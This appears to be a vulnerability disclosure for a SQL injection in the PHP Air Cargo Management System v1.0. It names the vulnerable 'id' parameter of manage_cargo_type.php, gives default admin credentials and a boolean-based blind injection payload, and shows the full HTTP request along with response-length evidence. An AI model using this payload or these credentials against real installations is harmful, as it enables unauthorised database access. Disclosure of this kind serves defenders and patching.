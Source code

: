# Air Cargo Management System v1.0 by oretnom23 has SQL injection

Author： k0xx

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15188/air-cargo-management-system-php-oop-free-source-code.html

Vulnerability File: /acms/admin/cargo_types/manage_cargo_type.php?id=

Vulnerability location: /acms/admin/cargo_types/manage_cargo_type.php?id=,id

[+] Payload: /acms/admin/cargo_types/manage_cargo_type.php?id=2%27%20and%20length(database())%20=7%20--+ // Leak place ---> id

Current database name: acms_db,length is 7

```sql
GET /acms/admin/cargo_types/manage_cargo_type.php?id=2%27%20and%20length(database())%20=7%20--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=aaffvur9cmo069649rorqsbmeh
Connection: close
```

When length (database ()) = 6, Content-Length: 3017
![image](https://user-images.githubusercontent.com/54017627/166405679-db00db87-d73a-42d8-9515-2d5ce9f534a8.png)

![image](https://user-images.githubusercontent.com/54017627/166405733-a884b4fe-87a0-4d76-a832-2287dfdf5dd5.png)

When length (database ()) = 7, Content-Length: 3053
![image](https://user-images.githubusercontent.com/54017627/166405660-78aedfe1-d691-4985-83bd-031d15e9b769.png)

![image](https://user-images.githubusercontent.com/54017627/166405705-b91d8057-a221-4256-ae09-26cc176f5360.png)

